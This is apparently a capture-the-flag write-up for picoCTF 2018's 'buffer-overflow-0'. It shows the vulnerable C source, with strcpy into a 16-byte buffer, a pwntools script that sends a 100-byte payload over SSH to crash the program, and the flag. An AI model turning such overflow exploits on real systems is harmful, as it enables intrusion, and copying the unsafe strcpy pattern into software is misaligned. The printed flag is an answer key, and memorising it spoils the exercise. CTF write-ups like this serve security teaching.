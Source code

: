 # Problem
Let's start off simple, can you overflow the right buffer in this [program](https://2018shell1.picoctf.com/static/3149816cf3615fa68f99af3cd667d6b9/vuln) to get the flag? You can also find it in /problems/buffer-overflow-0_4_ab1efebbee9446039487c64b88d38631 on the shell server. [Source](https://2018shell1.picoctf.com/static/3149816cf3615fa68f99af3cd667d6b9/vuln.c).

## Hints:
How can you trigger the flag to print?

If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Solution:

Lets download the files:
```bash
wget https://2018shell1.picoctf.com/static/3149816cf3615fa68f99af3cd667d6b9/vuln
wget https://2018shell1.picoctf.com/static/3149816cf3615fa68f99af3cd667d6b9/vuln.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}
```

We need to redirect program flow to sigsegv_handler, we can just override some important stack values (which will probably cause SIGSEGV).

Using this script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = ''
pw = ''


payload = "A"*100

if debug:
	r = process(['./vuln', payload])
else:
	s = ssh(host = '2018shell1.picoctf.com', user=user, password=pw)

	s.set_working_directory('/problems/buffer-overflow-0_4_ab1efebbee9446039487c64b88d38631/')
	r = s.process(['./vuln', payload])

print r.recvall()
```

Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}